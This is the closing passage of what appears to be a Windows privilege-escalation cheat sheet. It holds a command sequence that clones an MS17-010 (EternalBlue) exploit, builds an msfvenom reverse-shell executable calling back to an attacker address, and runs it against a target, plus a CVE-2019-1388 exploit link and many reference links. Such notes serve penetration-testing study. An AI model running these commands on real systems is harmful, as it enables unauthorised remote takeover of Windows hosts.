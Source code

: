 ```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Requirement:
- Windows 7 
- Windows 10 LTSC 10240

Failing on : 
- LTSC 2019
- 1709
- 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege


## References

* [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
* [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
* [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
* [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
* [Windows Privilege Escalation Guide - absolomb's security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs](https://github.com/dostoevskylabs/dostoevsky-pentest-notes/blob/master/chapter-4.md)
* [Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell](https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/)
* [Pentestlab.blog - WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
* [Pentestlab.blog - WPE-02 - Windows Kernel](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [Pentestlab.blog - WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)
* [Pentestlab.blog - WPE-04 - Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/)
* [Pentestlab.blog - WPE-05 - DLL Hijacking](https://pentestlab.blog/2017/03/27/dll-hijacking/)
* [Pentestlab.blog - WPE-06 - Hot Potato](https://pentestlab.blog/2017/04/13/hot-potato/)
* [Pentestlab.blog - WPE-07 - Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
* [Pentestlab.blog - WPE-08 - Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)
* [Pentestlab.blog - WPE-09 - Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/) 